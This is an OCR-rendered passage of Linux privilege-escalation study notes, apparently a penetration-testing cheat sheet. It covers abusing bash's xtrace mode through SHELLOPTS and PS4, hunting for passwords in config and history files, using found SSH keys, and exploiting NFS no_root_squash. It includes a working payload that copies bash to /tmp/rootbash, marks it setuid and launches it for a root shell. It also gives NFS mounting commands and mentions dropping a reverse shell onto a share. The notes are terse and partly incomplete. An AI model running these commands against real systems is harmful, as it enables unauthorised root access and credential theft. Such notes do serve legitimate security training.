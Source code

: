 ### Abusing shell features
* Bash has a debugging mode which can be enabled with the -x command line option, or by modifying the SHELLOPTS environment var to include xtrace
* By default SHELLOPTS is read only, however the env command allows SHELLOPTS to be set.
* When in debugging mode, BASH uses the env varialbe PS4 to display extra prompt for debug statements.  This variable can include embedded command, which will execute every time it is shown
```
#test
env -i SHELLOPTS=xtrace PS4='$(whoami)' <command>
#execute
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash  /tmp/rootbash; chmod +s /tmp/rootbash)' <command>
/tmp/rootbash -p
```

## Passwords
Look for passwords in config file
```
ls
```

History files can have passwords

```
ls -a
# look for *_history files
cat .bash_history
```

## SSH Keys
if you can find private key you can use it


## NFS
Network file Share
configured in /etc/exports
```
showmount -e <target>
#or
nmap -sV --script=nfs-showmount <target>
#mount
mount -o rw,vers=2 <target>:<share> <local_directory>
```

### Root Squashing
if someone tries to connect as root, NFS treats them as NOBODY user.
you can turn off this by setting no_root_squash config option

create a reverse shell and copy to remote share


## Strategy
1. Check your user (id, whoami)
2.  Run Linux Smart Enumaration Script  (Starting with Level 0, 1, 2)
3.  Run LinEnum and other scripts too
4.  If your scripts are failing, run manual commands 
5.  Cheatsheet:  https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation


